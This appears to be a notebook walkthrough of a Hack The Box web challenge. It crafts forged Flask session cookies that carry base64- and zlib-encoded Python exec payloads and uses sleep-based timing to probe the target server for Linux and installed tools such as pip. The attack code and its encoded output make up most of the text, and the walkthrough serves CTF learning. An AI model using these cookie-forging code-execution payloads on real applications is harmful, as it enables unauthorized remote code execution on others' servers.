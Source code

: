 

```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820



```python
get_response_from_the_app_using_cookie(url,evil_cookie)
```




    <!DOCTYPE html>\n<html><head>\n<meta content="width=device-width, initial-scale=1" name="viewport"/>\n<meta content="makelaris" name="author"/>\n<title>\U0001f30c on Venzenulon 9</title>\n<link crossorigin="anonymous" href="//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" rel="stylesheet"/>\n<link href="//fonts.googleapis.com/css?family=Comfortaa" rel="stylesheet" type="text/css"/>\n<style>html, body {background-image: url('//s-media-cache-ak0.pinimg.com/736x/7b/fe/d2/7bfed2ffe038beb673efd872cd44ba2c.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>\n</head>\n<body>\n<img class="mx-auto d-block img-responsive" src="//media3.giphy.com/media/eO8zgwAt3MVW/giphy.gif"/>\n</body>\n<!-- /debug -->\n</html>



The HTB app **sleeps**! This means that the host machine is running Linux!

We can use the same technique with sleep to get more information about the system. For instance if we want to find if a bash command can be executed the helper option `-h` could turn out usefull.

For instance if running `os.sysyem('apt-get -h)` results in a 0 exit code we know that the command is available and that, in this case, the package manager used is `apt`.

Say that we are interested in checking if `pip` is installed


```python
pl_check_pip = """import os,time
if os.system('pip -h')==0: time.sleep(10)
"""
```


```python
cookie_check_pip = from_payload_to_cookie_for_flask(make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_check_pip)),secret_key,debug_recipe=True)
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjUEKgzAQRfeeYnCTBGywW8GTiISYjnQgMcGJ0FJ6946uunv8N38+vjDotm0plbxXyNxVStjQKmj5zRWTVoUK3J7KjGM/wOktR8Si771ppNt9lHPLQbHSxs6pYQqw5h0C0AbaWOdC9CxGaPGMF/CxXClKrg3IoAq+qrMSRG8+yR3MUz+fH1J+HBHt/8zX/ACWvT5N"'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 278



```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820



```python
get_response_from_the_app_using_cookie(url,cookie_check_pip)
```

